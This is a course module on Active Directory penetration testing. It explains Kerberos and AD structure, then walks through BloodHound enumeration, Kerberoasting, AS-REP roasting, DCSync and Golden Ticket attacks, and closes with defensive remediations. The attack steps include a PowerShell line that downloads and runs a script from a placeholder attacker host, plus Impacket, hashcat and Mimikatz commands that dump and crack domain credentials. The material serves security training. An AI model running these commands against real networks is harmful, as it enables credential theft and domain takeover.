

# 🏰 Module 18 – ACTIVE DIRECTORY PENETRATION TESTING
<br>

> [!NOTE]
> **Module Overview:** Active Directory (AD) is the core identity and access management system for the vast majority of enterprise networks worldwide. Compromising AD means compromising the entire corporate network. This module provides a **comprehensive deep-dive** into AD architecture, the Kerberos authentication protocol, and the practical exploitation techniques required to achieve Domain Admin privileges.

---

## 🏗️ 1. Active Directory Architecture (THEORY)

Active Directory is not just a single database; it is a complex, hierarchical network service. Understanding its structure is mandatory for a Red Teamer.

### The Logical Structure
1.  **Forest:** The highest level of organization. A forest is a collection of one or more domain trees that share a common schema and global catalog. 
2.  **Tree:** A collection of one or more domains that share a contiguous namespace (e.g., `hq.corp.com` and `sales.corp.com` are in the same tree).
3.  **Domain:** The core logical unit. It represents a boundary of administration and security policies. (e.g., `corp.local`).
4.  **Organizational Units (OUs):** Containers within a domain used to group users, computers, and other OUs (often aligned with company departments like 'HR' or 'IT'). OUs are the primary target for Group Policy Objects (GPOs).

### Core Components
*   **Domain Controller (DC):** The central server that authenticates users, enforces security policies, and stores the AD database.
*   **NTDS.dit:** The actual physical database file stored on the Domain Controller (`C:\Windows\NTDS\ntds.dit`). It contains all users, groups, and password hashes for the domain. Extracting this is the ultimate goal.
*   **Global Catalog (GC):** A partial, read-only search index of all objects in the forest, used for forest-wide searches.
*   **Active Directory Certificate Services (AD CS):** The public key infrastructure (PKI) of AD. (Highly vulnerable if misconfigured, leading to ESC1-ESC8 attacks).

<details>
<summary><b>🛠️ AD Lab Setup (PRACTICAL)</b></summary>
<br>

**Syllabus Item:** `AD Lab setup (https://www.hackingarticles.in/active-directory-pentesting-lab-setup/)`

To practice AD attacks safely, you must build a virtualized domain.
1.  **Hypervisor:** Install VMware Workstation or VirtualBox.
2.  **Domain Controller:** Install Windows Server 2019/2022. Promote the server to a Domain Controller using the Server Manager (Add Roles and Features -> Active Directory Domain Services).
3.  **Domain Creation:** Run `dcpromo` (or the post-deployment configuration wizard) to create a new forest (e.g., `lab.local`).
4.  **Workstations:** Install Windows 10. Join it to the `lab.local` domain by modifying the system's DNS to point to the DC's IP, then joining via System Properties.
5.  **Vulnerable Setup:** Deliberately misconfigure accounts:
    *   Create a user and check "Do not require Kerberos preauthentication" (for AS-REP Roasting).
    *   Assign an SPN to a user account (for Kerberoasting).
</details>

---

## 🔑 2. Understanding Kerberos Authentication (THEORY)

Kerberos is the default authentication protocol in Windows domains. It is a ticket-based system designed to prevent passwords from being sent over the network. Most AD attacks abuse flaws in this ticket system.

### The Kerberos Flow



**Key Kerberos Terms:**
*   **KDC (Key Distribution Center):** A service running on the Domain Controller. It issues tickets.
*   **TGT (Ticket Granting Ticket):** Your "ID card." You get this when you log in. You show it to the KDC whenever you want access to a new service. It is encrypted with the `krbtgt` account hash.
*   **TGS (Ticket Granting Service) Ticket:** Your "Event Ticket." You use this to access a specific service (like a SQL server or File Share). It is encrypted with the target service's password hash.
*   **SPN (Service Principal Name):** A unique identifier for a service running on a server (e.g., `CIFS/fileserver.corp.local`).

---

## 🗺️ 3. Enumeration and BloodHound (PRACTICAL)

**Syllabus Item:** `Attacktive directory (https://tryhackme.com/room/attacktivedirectory)`

Before attacking, you must map the network. In large domains with thousands of users, finding the path to Domain Admin manually is impossible. We use **BloodHound**, which uses Graph Theory to find attack paths.

### Step 1: Data Collection (SharpHound)
SharpHound is the data collector. It queries the DC via LDAP and RPC to map out all users, groups, active sessions, and ACLs (Access Control Lists).

```powershell
# Bypassing AMSI and running SharpHound from memory
IEX (New-Object Net.WebClient).DownloadString('http://attacker_ip/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All -Domain corp.local
```
*Output:* Creates a `.zip` file containing JSON data of the entire domain structure.

### Step 2: Analysis (BloodHound GUI)
You load the `.zip` file into the BloodHound GUI (powered by a Neo4j database). You can then run pre-built Cypher queries like:
*   *Find Shortest Paths to Domain Admins*
*   *Find AS-REP Roastable Users*
*   *Find Kerberoastable Users*

---

## 🎟️ 4. Kerberos Roasting Attacks (PRACTICAL)

These attacks do not require administrative privileges. Any standard domain user can execute them.

### Kerberoasting
**Syllabus Item:** `kerberoasting in the lab`, `VulNet:Roasting THM`

**The Vulnerability:** Any authenticated user can request a TGS ticket for any Service Principal Name (SPN). The TGS ticket is encrypted using the password hash of the account running that service. If a service is running under a standard user account (instead of a machine account), the password might be weak.

**Execution:**
1.  Request TGS tickets for all SPNs associated with user accounts.
2.  Extract the tickets from memory (or via Impacket).
3.  Crack the RC4-encrypted tickets offline.

```bash
# Using Impacket (Kali Linux)
GetUserSPNs.py corp.local/john_doe:Password123 -request -outputfile hashes.txt

# Cracking with Hashcat
hashcat -m 13100 hashes.txt rockyou.txt
```

### AS-REP Roasting
**Syllabus Item:** `ASREP Roasting`

**The Vulnerability:** If a user account has the property `Do not require Kerberos preauthentication` checked in AD, an attacker can request an AS-REP message (Step 2 of the Kerberos flow) on behalf of that user *without knowing their password*. The DC responds with a message encrypted with the user's password hash, which can be cracked offline.

**Execution:**
```bash
# Using Impacket to find and roast vulnerable users
GetNPUsers.py corp.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# Cracking with Hashcat
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```

---

## 👑 5. Post Exploitation & Domain Takeover (PRACTICAL)

**Syllabus Item:** `Post exploitation (https://tryhackme.com/room/postexploit)`, `DCsync attack`, `Capturing Domain controller`

Once an attacker compromises a high-privileged account (e.g., Domain Admin), the goal shifts to exfiltrating the AD database and establishing permanent persistence.

### The DCSync Attack
**The Vulnerability:** Active Directory Domain Controllers constantly replicate data with each other using the Directory Replication Service (DRS) protocol. An attacker with the `Replicating Directory Changes` permission can use Mimikatz to impersonate a Domain Controller and politely ask the real DC to replicate the password hashes of all users.

**Execution:**
```bash
# Using Impacket's secretsdump.py with compromised Domain Admin credentials
secretsdump.py corp.local/Administrator:Admin123!@10.0.0.10
```
*Impact:* The attacker now possesses the NTLM hash of every user in the domain, including the `krbtgt` account.

### The Golden Ticket (Total Persistence)
If the Blue Team detects the breach, they will reset the Administrator passwords. However, if they fail to reset the `krbtgt` account password, the attacker maintains access.

**The Attack:** The `krbtgt` hash is used to encrypt all TGTs. Because the attacker stole this hash via DCSync, they can forge their own TGTs. They can create a "Golden Ticket" that says "I am the Domain Administrator, and this ticket is valid for 10 years." 

**Execution (Mimikatz):**
```powershell
# Generating a Golden Ticket
kerberos::golden /admin:FakeUser /domain:corp.local /sid:S-1-5-21-XXX-XXX-XXX /krbtgt:HASH_GOES_HERE /ticket:golden.kirbi

# Injecting the ticket into the current session
kerberos::ptt golden.kirbi
```
Even if the attacker is operating from a non-domain joined machine, this ticket grants them full access to all domain resources.

---

## 🛡️ 6. Mitigation and Defense (THEORY)

Red Teamers must understand how to advise Blue Teams on fixing these vulnerabilities.

| Attack | Defensive Remediation |
| :--- | :--- |
| **Kerberoasting** | Ensure service accounts use passwords > 25 characters. Implement Group Managed Service Accounts (gMSAs) which rotate passwords automatically. |
| **AS-REP Roasting** | Audit AD and ensure "Do not require Kerberos preauthentication" is unchecked for all users. |
| **DCSync** | Strictly limit the `Replicating Directory Changes` privilege to actual Domain Controllers. Monitor for Event ID 4662 (Object Access) related to DRSUAPI. |
| **Golden Ticket** | Reset the `krbtgt` password **twice** consecutively if a breach is suspected (this invalidates all currently issued tickets). |

<br>
<p align="center"><i>End of Module 18 - End of Part 3 (CRTA)</i></p>
